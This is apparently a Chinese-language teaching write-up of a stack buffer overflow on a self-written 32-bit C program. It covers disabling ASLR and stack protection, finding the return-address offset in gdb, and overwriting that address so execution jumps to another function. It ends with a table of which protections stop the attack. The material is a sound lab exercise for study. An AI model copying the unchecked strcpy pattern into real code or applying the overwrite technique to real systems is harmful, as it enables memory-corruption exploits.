 ```c
  1 // buf.c
  2
  3 #include <stdio.h>
  4 #include <string.h>
  5 char buffer[] = "01234567890123456789========ABCD";
  6 void fun1(){printf("You are attacked!\n");}
  7 void fun(){
  8    char buff[16];
  9    strcpy (buff, buffer);
 10 }
 11
 12 int main(){
 13    fun();
 14    return 0;
 15 }
```

攻击原理：上述程序中buffer数组大小为32字节，而buff数组大小为16字节。由于strcpy函数在进行复制时不进行检查，在复制过程会对buff数组邻界区域进行覆盖（这里为buff数组上方的高地址内存）。通过对C程序运行时结构的了解，在32位环境下fun函数的返回地址恰好被ABCD覆盖，如果我们此时将ABCD修改为fun1函数的地址即可成功跳转从而攻击成功。

关闭地址随机化功能，运行代码并使用后gdb进行调试确定地址：

```shell
sudo sysctl -w kernel.randomize_va_space=0
gcc -Wall -g -o buf buf.c -fno-stack-protector -z execstack -m32
gdb buf -q
```

使用`disas fun`查看fun函数汇编代码，可以看到fun函数在偏移量为50的地方进行返回，我们在这个位置设置断点。

<img src="https://cdn.jsdelivr.net/gh/peng-yq/Gallery/img/202304131018251.png">

在断点出开始执行，先打印出当前esp指向的位置，为0x44434241（恰好为ABCD），再执行下一步，可以看到随即提示段错误，并打印报错信息找不到地址0x44434241。

<img src="https://cdn.jsdelivr.net/gh/peng-yq/Gallery/img/202304131021436.png">

查看fun1函数的汇编代码，可以看到首地址为0x565561ed。

<img src="https://cdn.jsdelivr.net/gh/peng-yq/Gallery/img/202304131024079.png">

将buffer字符串中的ABCD修改为fun1函数的首地址，即可发起攻击。

```c
char buffer[] = "01234567890123456789========\xed\x61\x55\x56";
```

<img src="https://cdn.jsdelivr.net/gh/peng-yq/Gallery/img/202304131026659.png">

| ASLR | 栈保护机制 | 栈可执行 | 栈不可执行 | 攻击是否成功 |
| ---- | ---------- | -------- | ---------- | ------------ |
| 否   | 否         | 是       | 否         | 是           |
| 否   | 否         | 否       | 是         | 否           |
| 是   | 是         | 否       | 是         | 否           |
